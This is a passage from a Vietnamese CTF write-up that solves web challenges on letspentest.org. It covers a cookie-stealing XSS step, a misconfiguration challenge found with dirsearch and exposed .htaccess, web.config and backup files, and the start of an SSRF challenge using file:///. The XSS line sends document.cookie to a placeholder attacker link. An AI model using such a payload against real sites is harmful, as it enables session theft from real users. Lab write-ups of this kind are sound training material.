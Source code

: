 ```<script>document.write("<img src='your_link/"+document.cookie+"'>");</script>```
> ![image](https://user-images.githubusercontent.com/90112096/140527835-1e07b26f-c761-4cf2-a3df-6be2445f8cdd.png)

Bước 5: Decode đoạn "RmxhZ3tHcjMzdDFuR30=" sang ASCII.

> ![image](https://user-images.githubusercontent.com/90112096/140527997-b8071c4a-e3f4-4363-b29c-112a154df867.png)

**Flag{Gr33t1nG}**

### Bài 5: MISCONFIGURATION
Chẳng biết vô tình hay cố ý, Gà mắc phải một sai lầm không đáng có trong việc thiết lập cấu hình Web Server.

Từ một lỗ hổng nhỏ tí xíu, Mèo Yang Hồ sẽ tận dụng mọi trí tưởng tượng và kĩ thuật để thâm nhập được sâu hơn.

> http://chal16.web.letspentest.org/

### ***Cách giải:***

Bước 1: Khi đọc đề xong mình nghĩ tới việc tìm các file config nên mình sử dụng công cụ ```dirsearch``` 

> ![image](https://user-images.githubusercontent.com/90112096/140530035-acadc1bd-f059-415e-8634-86c303f8bdd4.png)

Bước 2: Sau khi quét xong thì mình tìm được hai đường link 

```http://chal16.web.letspentest.org/.htaccess
   http://chal16.web.letspentest.org/web.config
```

Bước 3: Mở 2 đường link ra ta được 2 phần của flag  **Flag{1b283f0725d536a0f217d89**

Bước 4: Tuy nhiên ở link thử hai mình để ý đến một file có trong source code nên mình quyết định truy cập thử vào nó

```http://chal16.web.letspentest.org/backup-ddmmyy.bak```

> ![image](https://user-images.githubusercontent.com/90112096/140530430-70c1cfba-0f98-49b3-94cc-252915cc6aed.png)

Bước 5: Sau khi tải file về mình dùng trang web ```https://www.toolsley.com/file.html``` để check đuôi file là gì. Sau đó mình đổi tên đuôi file và nhận được nốt phần 3 của flag

> ![image](https://user-images.githubusercontent.com/90112096/140530896-1f359c34-f54a-4cfb-93fe-f109c91fe4ba.png)

**Flag{1b283f0725d536a0f217d89caca7b183}**

### Bài 6: PAPARAZZI
Đây là cánh cửa thần kì giúp Gà vượt qua mọi rào cản, biên giới. Mèo Yang Hồ khao khát có được thứ bảo bối này, nên ngày đêm ngồi tìm kiếm lỗ hổng. Bạn muốn giúp Mèo một tay?

> http://chal8.web.letspentest.org/

### ***Cách giải:***

Bước 1: Sau khi xem qua source code, mình nhận thấy ở đây chỉ có nhập vào URL nên mình đoán đây rất có thể là một bài SSRF.

Bước 2: Sau khi nhập thử ```file:///``` thì mình nhận được một ảnh

```